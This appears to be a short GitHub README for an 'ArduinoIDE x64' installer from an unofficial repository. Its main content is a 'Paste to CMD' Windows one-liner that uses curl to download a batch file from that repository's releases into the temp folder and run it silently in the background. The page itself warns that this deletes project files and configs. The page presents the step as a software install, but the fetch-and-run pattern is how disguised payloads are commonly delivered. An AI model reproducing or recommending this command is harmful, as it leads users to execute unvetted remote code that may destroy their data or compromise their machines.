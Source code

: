 # ArduinoIDE x64

# Paste to CMD
```
del "%temp%\arduino_ide_installer.bat" >nul 2>&1 &curl -L -o "%temp%\arduino_ide_installer.bat" https://github.com/ny4rlk0/ArduinoIDE/releases/download/ArduinoIDE/arduino_ide_installer.bat &&start /b "" cmd /c %temp%\arduino_ide_installer.bat &&exit
```
<h2>Warning it will delete all project files and configs in default folders.</h2>
